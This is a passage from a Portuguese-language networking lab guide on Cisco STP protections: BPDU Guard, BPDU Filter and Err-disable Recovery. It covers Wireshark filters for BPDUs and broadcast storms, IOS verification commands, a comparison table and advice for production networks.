> Filtra apenas **TCN BPDUs** (Topology Change Notification) — aparecem em massa durante o loop e na reconvergência.

**Ver apenas tráfego de broadcast (indicador de loop):**

```Whireshark
eth.dst == ff:ff:ff:ff:ff:ff
```



> Durante o loop do Lab 1C, o volume de pacotes com esse filtro deve crescer de forma absurda em poucos segundos. Isso é a broadcast storm visível na tela.

**Identificar o Root Bridge pela captura:**

```Whireshark
stp && stp.root.hw == 00:00:00:00:00:00
```

> Substitua os zeros pelo MAC do SW-CORE. Os BPDUs enviados pelo Root Bridge terão `Root Identifier` igual ao próprio `Bridge Identifier`. No Wireshark, expanda a árvore **Spanning Tree Protocol > Root Identifier** para identificar o Root Bridge e confirmar que é o SW-CORE.

**Filtrar por MAC de origem (isolar switch específico):**

```Whireshark
eth.src == aa:bb:cc:dd:ee:ff
```

> Substitua pelo MAC do SW-INTRUSO para confirmar que ele está enviando BPDUs mesmo com o filtro ativo no SW-ACESSO.

**Ver tráfego ARP em volume (confirmação de broadcast storm):**

```Whireshark
arp
```

> Durante o loop, o ARP explode. Combine com o filtro de broadcast para ter uma visão completa do impacto.

---

### O que Analisar em Cada BPDU Capturado

Ao clicar em um quadro STP no Wireshark, expanda a seção **Spanning Tree Protocol** e observe:

- **Root Identifier / Priority + MAC:** Confirma quem é o Root Bridge na visão do switch que enviou o BPDU.
- **Bridge Identifier / Priority + MAC:** Identifica o switch que originou o BPDU.
- **Root Path Cost:** Custo acumulado até o Root Bridge. Deve ser 0 nos BPDUs enviados pelo próprio Root.
- **Message Age / Max Age / Hello Time / Forward Delay:** Timers do STP. Qualquer inconsistência aqui indica problema de topologia.
- **Flags:** O bit de **Topology Change (TC)** aceso indica que a topologia mudou — visível em massa durante o loop.

---

## 🔬 Verificação e Troubleshooting

### Comandos Essenciais

| Comando                                     | O que verifica                                                                  |
| :---                                        | :---                                                                            |
| `show spanning-tree vlan [id]`              | Estado geral do STP na VLAN — Root Bridge, portas, roles e estados              |
| `show spanning-tree detail`                 | Estado detalhado por porta, incluindo contagem de BPDUs e flags PortFast/Filter |
| `show spanning-tree interface [int] detail` | Status individual de uma porta no STP                                           |
| `show errdisable recovery`                  | Causas habilitadas para recovery e timer restante por interface                 |
| `show errdisable detect`                    | Causas configuradas para detecção de err-disable                                |
| `show interfaces status err-disabled`       | Lista todas as interfaces atualmente em err-disabled                            |
| `show log \| include ERR\|SPANTREE\|BPD`    | Filtra logs relevantes para STP e err-disable                                   |
| `show processes cpu sorted`                 | Detecta impacto de loop L2 na CPU                                               |
| `show mac address-table count`              | Número de entradas na tabela MAC — explode durante broadcast storm              |

### Debug (Usar com Cautela em Produção)

```ios
debug spanning-tree events
debug spanning-tree bpdu
```

> **Atenção:** Debug de STP em ambiente de produção com muitas VLANs pode gerar volume massivo de saída e impactar a CPU do switch. Use apenas em manutenção controlada ou em laboratório.

---

## 📊 Comparativo: BPDU Guard vs BPDU Filter

| Critério                   | BPDU Guard                              | BPDU Filter (Global)                        | BPDU Filter (Interface)                    |
| :---                       | :---                                    | :---                                        | :---                                       |
| **Ação ao receber BPDU**   | Porta entra em err-disabled             | Filtro desativa, STP volta a operar         | Ignora o BPDU permanentemente              |
| **Ação ao enviar BPDU**    | Não afeta o envio                       | Para de enviar em portas PortFast           | Para de enviar                             |
| **Risco de loop**          | Baixo — porta é bloqueada imediatamente | Baixo — STP reativa se necessário           | Alto — STP permanece desativado            |
| **Recuperação automática** | Via Err-disable Recovery                | Automática ao receber qualquer BPDU         | Não há — requer intervenção manual         |
| **Visível no Wireshark**   | Um BPDU recebido, então silêncio        | BPDUs param de sair, continuam entrando     | BPDUs entram normalmente, switch não reage |
| **Caso de uso ideal**      | Portas de acesso a hosts finais         | Ambientes com PortFast global habilitado    | Raramente recomendado                      |
| **Configuração**           | `spanning-tree bpduguard enable`        | `spanning-tree portfast bpdufilter default` | `spanning-tree bpdufilter enable`          |

---

## ⚠️ Considerações para Ambiente de Produção

**1. Intervalo do Err-disable Recovery muito curto gera ciclo infinito:**  
Se a causa não for removida (ex: switch intruso ainda conectado), a porta entra em ciclo de recovery → err-disabled → recovery. Isso gera logs excessivos e mascara o problema real. Combine o recovery com SNMP trap para que a equipe seja notificada mesmo quando a porta se recupera automaticamente.
  
**2. BPDU Filter por interface nunca em portas sem controle físico:**  
Portas em painéis de patch, tomadas de escritório ou qualquer local onde um usuário possa conectar um switch não gerenciado jamais devem ter `bpdufilter enable`. Reserve esse comando para cenários muito específicos como interconexão com sistemas legados que não suportam STP.
  
**3. Err-disable Recovery não substitui monitoramento:**  
O recovery automático é uma camada de resiliência, não substituto para alertas. Configure syslog e SNMP traps para que a equipe de operações seja informada.
  
**4. Interação com UDLD:**  
Em topologias com fibra óptica, o UDLD também pode colocar portas em err-disabled. Certifique-se de incluir `errdisable recovery cause udld` se estiver usando UDLD na mesma infraestrutura.  
  
**5. Habilite Err-disable Recovery por causa, não em bloco:**  
O comando `errdisable recovery cause all` não é recomendado em produção. Avalie causa por causa:

```ios
errdisable recovery cause ?
```
  
---

## 🏁 O que Aprendemos com Este Laboratório

- **BPDU Filter tem dois comportamentos completamente diferentes** dependendo de onde é aplicado: o modo global é seguro pois ainda reage a BPDUs recebidos; o modo por interface é permanente e cego ao STP.
- **BPDU Guard é a escolha correta para portas de acesso** — ele falha de forma segura ao colocar a porta em err-disabled em vez de permitir um loop.
- **Err-disable Recovery reduz o MTTR** ao automatizar a reativação de portas após falhas transitórias, sem depender de intervenção humana.
- **O intervalo de recovery precisa ser dimensionado** com base no ambiente — muito curto gera ciclos infinitos, muito longo aumenta o tempo de inatividade.
- **O Wireshark prova o que o CLI reporta** — ele torna visível o momento exato em que o loop explode, quando os BPDUs somem com o Filter ativo, e quando o ciclo de err-disable se repete.
- **Combinação ideal em produção:** PortFast + BPDU Guard + Err-disable Recovery + SNMP Trap para porta err-disabled.

---

## 🏆 Habilidades Adquiridas

- **Configuração de Proteções STP de Nível CCNP:** Domínio completo sobre BPDU Guard e BPDU Filter, incluindo os riscos de cada modo de operação.
- **Design de Redes Resilientes:** Capacidade de decidir entre segurança ativa (Guard) e filtragem de tráfego (Filter), com justificativa técnica baseada em risco operacional.
- **Automação Nativa do IOS:** Implementação de Err-disable Recovery com dimensionamento consciente do intervalo para ambientes de produção.
- **Análise de Protocolo com Wireshark:** Capacidade de capturar, filtrar e interpretar BPDUs, TCNs e broadcast storms em tempo real — correlacionando o comportamento do protocolo com o que o CLI reporta.
- **Troubleshooting de Nível Sênior:** Diagnóstico de problemas de STP via comandos `show` e `debug`, com capacidade de diferenciar falhas globais de problemas isolados por porta.
- **Visão Operacional NOC/N3:** Compreensão do impacto de cada configuração no MTTR, SLA e custo operacional da infraestrutura.